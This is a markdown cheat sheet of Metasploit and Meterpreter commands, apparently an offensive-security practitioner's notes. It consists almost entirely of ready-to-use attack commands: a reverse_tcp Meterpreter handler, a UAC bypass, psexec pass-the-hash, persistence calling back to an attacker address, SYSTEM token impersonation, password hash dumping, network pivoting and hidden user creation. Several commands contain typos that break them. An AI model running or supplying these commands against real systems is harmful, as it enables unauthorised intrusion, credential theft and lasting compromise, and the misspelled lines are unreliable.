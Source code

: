 ```yaml
---
title: Metasploit
---
```


https://securityonline.info/automated-persistent-backdoor-metasploit/
https://netsec.ws/?p=331
https://gist.github.com/ssstonebraker/f25e2f1f6458da6dc074a1e7af79b773
https://www.offensive-security.com/metasploit-unleashed/msfvenom/

## Metasploit

Mestaploit handler command line 
```sh
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.1.5; set LPORT 4444; set AutoRunScript post/windows/manage/migrate; exploit"
```
Search exploit
```sh
msfconsole -x "search name:smb type:exploit platform:windows"
```
Handler
```sh
use exploit/multi/handler
```
Bypass UAC
```sh
use exploit/windows/local/bypassuac_injection
```
Pass the hash
```sh
user exploit/windows/smb/psexec
```
Add route to season 2
```sh
route add 10.10.10.0 255.255.255.0 2
```
Open a sock
```sh
use auxiliary/server/socks4a
```
Persistence
```sh
use exploit/windows/local/persistence
```
Autorun script
```sh
msf exploit(multi/handler) > set AutoRunScript migrate -n svchost.exe
```
msfvenom payload list
```sh
msfvenom -l payloads
```
migrate process
```sh
use post/windows/manage/migrate
```
local Exploit Suggester
```shell
use post/multi/recon/local_exploit_suggester
```

## Meterpreter
Info about the machine 
```sh
sysinfo
```
Username
```sh
getuid
```
Process
```sh
ps
```
Migrate the shell to another process
```sh
run post/windows/manage/migrate
```
Privilege escaltion from Administrator to SYSTEM
```sh
getsystem
```
Verify if UAC is enable
```sh
run post/windows/gather/win_privs
```
Imperonate Token
```sh
use incognito
list_token -u
impersonate_token "NT AUTHORITY\SYSTEM"
```
hash dump
```sh
run hashdump
```
Persistence
```sh
run persistence -A -X -i 5 -p 4444 -r 192.168.1.3
```
Information Gathering
```sh
run post/windows/gather
```
Search file 
```sh
search -d C:\\Users\\els\\ -f *.txt
```
Portforward
```sh
portfwd add –l 3389 –p 3389 –r [target host]
portfwd delete –l 3389 –p 3389 –r [target host]
portfwd flush
```
Resources shared
```sh
run enum_share
```
Enum Applications
```sh
run post/windows/gather/enum_applications
```
Enum Service
```sh
run post/windows/gather/enum_services
```
route table
```sh
route
```
arp scan 
```sh
run arp_scanner -h
```
network enumeration 
```sh
run netenum -h
```
autoroute
```sh
run autoroute -s 10.10.10.0/24
```
create user
```sh
run getgui
```
info privilege escalation (UAC status)
```sh
run post/windows/gather/win_privs
```
Privilege escalation enumeration 
```sh
run post/multi/recon/local_exploit_suggester
```

